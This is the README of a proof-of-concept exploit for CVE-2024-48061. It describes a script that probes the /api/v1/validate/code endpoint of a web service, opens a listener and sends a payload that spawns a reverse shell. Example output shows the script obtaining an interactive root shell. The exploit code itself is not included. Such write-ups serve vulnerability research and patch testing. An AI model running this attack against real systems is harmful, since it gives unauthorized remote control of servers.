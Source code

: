 # CVE-2024-48061
## CVE-2024-48061 - poc

## Usage
```shell
python3 poc.py -i <web_ip> -p <web_port> -l <listener_ip> -lp <listener_port>
```

## Description
This script exploits a vulnerable API endpoint at `/api/v1/validate/code` on the target web server.
It first verifies the presence of the vulnerable path, then starts a TCP listener on the specified
listener IP and port. Once the listener is ready, it sends a specially crafted payload to the target
to spawn a reverse shell connecting back to the listener.

- The script handles interactive shell communication, and cleanly exits on Ctrl+C without error messages.
- Output is color-coded for easier reading:
	 - Green: Success/info messages
	 - Yellow: Informational steps like sending payload
	 - Red: Errors or failures

- If the vulnerable path does not exist, it reports that and exits immediately.
- If the listener port is in use, the script suggests trying a different port and exits.

## Example
- Successful attempt
```
python3 poc.py -i 192.168.0.2 -p 7860 -l 192.168.0.3 -lp 6666
[+] Listener started on 192.168.0.3:6666, waiting for connection...
[+] Sending payload to http://192.168.0.2:7860/api/v1/validate/code
[+] Connection from 192.168.0.2:37946 received!
[+] PWNed 192.168.0.2:37946
[*] Why do programmers prefer dark mode? Because light attracts bugs!
[*] Interactive shell:
whoami
root
exit
^C
[*] Exiting shell.
```
- Un-Successful attempt
```
python3 poc.py -i 192.168.0.2 -p 7860 -l 192.168.0.3 -lp 6666
[-] Vulnerability doesn't exist at http://192.168.0.2:7860/api/v1/validate/code
```
